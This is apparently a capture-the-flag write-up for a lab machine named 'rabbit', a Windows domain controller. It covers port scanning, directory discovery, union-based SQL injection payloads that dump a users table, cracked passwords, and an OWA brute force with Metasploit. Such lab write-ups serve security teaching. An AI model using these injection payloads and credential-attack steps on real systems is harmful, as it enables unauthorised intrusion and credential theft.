# rabbit


## nmap


PORT      STATE    SERVICE
53/tcp    open     domain
80/tcp    open     http
88/tcp    open     kerberos-sec
135/tcp   open     msrpc
389/tcp   open     ldap
443/tcp   open     https
445/tcp   open     microsoft-ds
464/tcp   open     kpasswd5
593/tcp   open     http-rpc-epmap
636/tcp   open     ldapssl
808/tcp   open     ccproxy-http
3268/tcp  open     globalcatLDAP
3269/tcp  open     globalcatLDAPssl
3306/tcp  open     mysql
6001/tcp  open     X11:1
6002/tcp  open     X11:2
6003/tcp  open     X11:3
6004/tcp  open     X11:4
6005/tcp  open     X11:5
6006/tcp  open     X11:6
6007/tcp  open     X11:7
8080/tcp  open     http-proxy
49165/tcp filtered unknown
65129/tcp filtered unknown

- look like a active directory domain controller


## http

- box has CN=RABBIT, adding it to hosts file
- there 3 different webservers and all different 
- they are on ports 80,443,8080


#### gobuster

- using gobuster on all of the for directory search
- three interesting subdirectories were found


1. outlook web application at port 443 but we need credentials




2. Joomla at port 8080 in joomla subdirectory there are no known exploit for this version




3. complain management system in port 8080 in another subdirectory




- complain management system is vulnerable to sql injection so we can try it to enumerate users and credentials.
- we need to access that url first we will create a account and see if we can access it




## sqli

-  we confirm it has sql injection




```
sql queries to extract information
link injectable		http://192.168.1.104/view.php?mod=admin&view=repod&id=plans


union select 1,schema_name,2,3,4,5 from information.schema.schemata--

```

```
union select 1,version(),3,user(),5--
```




```
union select 1,schema_name,3,4,5 from information_schema.schemata--
```




```
union all select 1,table_name,3,4,5 from information_schema.tables where table_schema=0x736563726574 --
```

- dumping tables in secret database




```
union all select 1,column_name,3,4,5 from information_schema.columns where table_schema=0x736563726574 and table_name=0x5573657273--
```

- check for columns in secret database




```
union all select 1,concat(username,0x2d,password),3,4,5 from secret.users-- -
```




## hashcat

- md5 hashes



#### credentials

```
Ariel pussycatdolls
Magnus xNnWo6272k7x
Dumah popcorn
Malek barcelona
Moebius santiago
```


## metasploit

- owa bruteforce got 2 successful login



```
Ariel : pussycatdolls
Magnus : xNnWo6272k7x
```


## shell


#### notes

```
The security team has deployed windows defender and PowerShell constrain mode as the default organization security standard.
```

